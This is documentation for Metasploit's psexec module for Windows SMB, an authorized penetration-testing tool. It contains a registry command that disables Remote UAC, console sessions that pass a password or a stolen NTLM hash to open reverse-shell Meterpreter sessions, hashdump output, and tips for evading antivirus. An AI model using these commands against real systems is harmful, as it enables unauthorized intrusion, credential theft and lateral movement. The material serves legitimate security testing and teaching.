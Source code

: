 ## Vulnerable Application
PsExec is one of the most popular exploits against Microsoft Windows. It is a great way to test password security and demonstrate how a
stolen password could lead to a complete compromise of an entire corporate network.

To be able to use `exploit/windows/smb/psexec`:

1. A valid username and password must be set.
1. The firewall must allow SMB traffic.
1. The remote Windows machine's network security policy must allow it. See the "Disabling Remote UAC" section below.

### Disabling Remote UAC
If the specified account is a local Administrator and the target is Windows Vista or newer, then "Remote UAC" must be
disabled (the `DWORD` value
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be 1).
See [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy][1] for more information. Without this setting, the
server will respond with `STATUS_ACCESS_DENIED` and PsExec will fail.

Set this registry with the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter >
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will
probably need to at least configure:

**The SMBUser Option**

This is a valid Windows username.

**The SMBPass option**

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using
some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter >
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The Automatic target is the default target. If the  Automatic target
detects Powershell on the remote machine, it will try Powershell, otherwise it uses the natie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus. However, older Windows machines might not support Powershell by
default.

Because of this, you will probably want to use the Automatic target setting. The automatic mode will check if the target supports
Powershell before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (which can be modified with the
SMBSHARE datastore option), and then execute it with psexec.

This approach is generally reliable, but has a high chance of getting caught by antivirus on the target. To counter this, you can try to
use a template by setting the EXE::Path and EXE::Template datastore options. Or, you can supply your own custom EXE by setting the
`EXE::Custom` option.

**MOF Upload Target**

The [MOF](https://docs.metasploit.com/docs/development/developing-modules/libraries/how-to-use-wbemexec-for-a-write-privilege-attack-on-windows.html) target
technically does not use psexec; it does not explicitly tell Windows to execute anything. All it does is upload two files: the payload
(exe) in SYSTEM32 and a managed object format file in SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that directory, it
automatically runs it. Once executed, the code inside the MOF file basically tells Windows to execute our payload in SYSTEM32, and you get
a session.

Although it's a neat trick, Metasploit's MOF library only works against Windows XP and Windows Server 2003. And since it writes files to
disk, there is also a high chance of getting caught by antivirus on the target.

The best way to counter antivirus is still the same. You can either use a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the EXE::Custom option.

**Command**

The command target causes the psexec operation to execute an operating system command. This can either be a `cmd/windows/` payload provided
by Metasploit, or the user can specify their own by using the `cmd/windows/generic` payload and setting `CMD`. The output of the command
will be written to a file and then retrieved so that it is accessible. If the command does not immediately return, then reading the output
will fail.

[1]: https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/
